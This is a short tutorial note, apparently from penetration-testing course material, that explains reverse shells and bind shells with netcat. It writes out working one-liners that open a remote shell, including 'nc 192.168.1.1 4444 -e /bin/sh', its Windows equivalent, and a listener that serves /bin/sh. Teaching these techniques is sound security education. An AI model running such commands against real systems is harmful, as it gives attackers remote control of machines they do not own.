 # Reverse Shells vs Bind Shells

The most common type of shell we will see is called a **Reverse Shell**. It can
be realized using a Linux tool called `netcat` (acutally `nc`). The shell gives
access to the attacked machine.

**Reverse shell** means that the target connects to the host, e.g. through a TCP
connection with `nc`. The attacker is listening, the target is making the
connection.

* Attacker: `nc -lvp 4444` establishes a listening connection (-l) on port 4444
(-p 4444) with verbose output (-v)
* Target: `nc 192.168.1.1 4444 -e /bin/sh` connects to IP 192.168.1.1 on port
4444 and executes /bin/sh, which is a symbolic link to the default shell on Linux
(on Windows: `nc.exe -e cmd.exe 192.168.1.1 4444`).

<img src="./images/ReverseShell_netcat.png" alt="Reverse Shell with netcat" width="800"/>


A **bind shell** is a connection initiated from the attacker to the target. To
get a bind shell, a listening connection has to exist on the target already,
e.g. as a consequence of a previous exploit.

* Attacker: `nc 192.168.1.2 4444` makes a connection with the target
(IP 192.168.1.2) using port 4444, which has to be open
* Target: `nc -lvp 4444 -e /bin/sh` establishes a listening connection on port
4444 and executes `/bin/sh` on the target

<img src="./images/BindShell_netcat.png" alt="Bind Shell with netcat" width="800"/>

Reverse shells will be used 95% of the time! Bind shells are most likely to be
used in an external assessment because a reverse shell to a virtual machine (the
attacker) is difficult to establish (port forwarding requires extra work). 
